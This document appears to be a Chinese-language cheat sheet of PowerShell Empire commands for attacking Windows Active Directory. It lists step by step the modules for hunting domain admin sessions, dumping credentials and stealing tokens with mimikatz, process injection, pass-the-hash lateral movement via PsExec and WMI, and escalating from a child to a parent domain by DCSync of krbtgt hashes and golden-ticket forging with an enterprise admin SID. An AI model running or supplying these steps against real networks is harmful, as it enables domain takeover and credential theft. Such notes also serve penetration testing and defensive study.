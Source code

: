 	查询域管登录机器
	>usemodule situational_awareness/network/powerview/user_hunter
  ##### 令牌窃取
	>mimikatz
	>creds  获取并整理hash及密码
	>pth {ID}窃取管理员令牌
	>steal_token {PID}
  ##### 会话注入
	>ps 查看进程
	>usemodule management/psinject 设置ProcIP和Listener
  ##### Hash传递
	Invoke-PsExec可能会被查杀
	>usemodule situational_awareness/network/powerview/find_localadmin_access 列出可PSexec横向移动的机器
	>usemodule lateral_movement/invoke_psexec需设置ComputerName和Listener
	或
	>usemodule lateral_movement/invoke_wmi需设置ComputerName和Listener，credID
	跨域
	父域域控：dc.zone.com
	子域域控：sub.zone.com
	子域计算机：pc.sub.zone.com
	子域普通用户：sub\user1
	查看信任关系
	>usemodule situational_awareness/network/powerview/get_domain_trust
	获取父域krbtgt SID，使用management/user_to_sid获取sid
	需设置Domain和User=krbtgt
	>usemodule credentials/mimikatz/dcsync 设置UserName 子域\krbtgt 获取子域hash
	>usemodule credentials/mimikatz/golden_ticket 伪造sid 
	需设置User为伪造用户 sids伪造的标识符{krbtgt sid}-519
	>usemodule credentials/mimikatz/dcsync 获取父域krbtgt的hash
	>usemodule credentials/mimikatz/golden_ticket 使用父域krbtgt进行PTH攻击，指定父域CredID，用户名和域
	>shell dir \\dc.zone.com\c$